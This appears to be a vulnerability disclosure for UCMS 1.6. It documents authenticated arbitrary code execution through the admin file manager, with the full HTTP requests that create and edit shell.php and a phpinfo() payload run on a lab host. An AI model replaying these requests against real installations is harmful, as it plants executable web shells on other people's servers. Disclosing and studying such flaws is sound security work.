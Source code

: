## Arbitrary code execution vulnerability exists in UCMS 1.6

vendor: http://uuu.la/

Download link for UCMS-1.6 installation package: http://uuu.la/uploadfile/file/ucms_1.6.zip

Log in to the backend and click File Management

![image](https://user-images.githubusercontent.com/54017627/161387110-ce6f073a-cda1-4332-8d61-0c916ead4626.png)

Enter the file name shell.php to be created in the box of New File:

![image](https://user-images.githubusercontent.com/54017627/161387153-c83d861a-7f12-46e2-aa22-8e5278428297.png)

```
POST /ucms_1.6/ucms/index.php?do=sadmin_file&dir=/ucms_1.6 HTTP/1.1
Host: 192.168.1.101
Content-Length: 62
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.101
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101/ucms_1.6/ucms/index.php?do=sadmin_file&dir=/ucms_1.6
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_adc3f8=admin; psw_adc3f8=97376f13bb0b37ffdc31255d275d609c; token_adc3f8=8945ab62
Connection: close

uuu_token=8945ab62&newfile=shell.php&submit=%E6%8F%90%E4%BA%A4
```
Mouse over the shell.php line and click Edit

![image](https://user-images.githubusercontent.com/54017627/161387252-02ed0b8c-43c3-4142-935e-c68a631dfb12.png)

```
GET /ucms_1.6/ucms/index.php?do=sadmin_fileedit&dir=/ucms_1.6/&file=shell.php HTTP/1.1
Host: 192.168.1.101
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101/ucms_1.6/ucms/index.php?do=sadmin_file&dir=/ucms_1.6
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_adc3f8=admin; psw_adc3f8=97376f13bb0b37ffdc31255d275d609c; token_adc3f8=8945ab62
Connection: close
```

Enter our code and click Save

![image](https://user-images.githubusercontent.com/54017627/161387344-c844e6d5-3b11-472b-ba49-a8b75b59ad36.png)

```
POST /ucms_1.6/ucms/index.php?do=sadmin_fileedit&dir=/ucms_1.6/&file=shell.php HTTP/1.1
Host: 192.168.1.101
Content-Length: 61
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.101
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101/ucms_1.6/ucms/index.php?do=sadmin_fileedit&dir=/ucms_1.6/&file=shell.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_adc3f8=admin; psw_adc3f8=97376f13bb0b37ffdc31255d275d609c; token_adc3f8=8945ab62
Connection: close

uuu_token=8945ab62&co=%3C%3Fphp+phpinfo%28%29%3B%3F%3E&pos=16
```
We visited the shell.php directory from the browser and found that the code had been executed successfully

directory： http://192.168.1.101/ucms_1.6/shell.php

![image](https://user-images.githubusercontent.com/54017627/161387431-66ed1b02-3dc4-423f-a1cf-6bd3dc3f9b39.png)
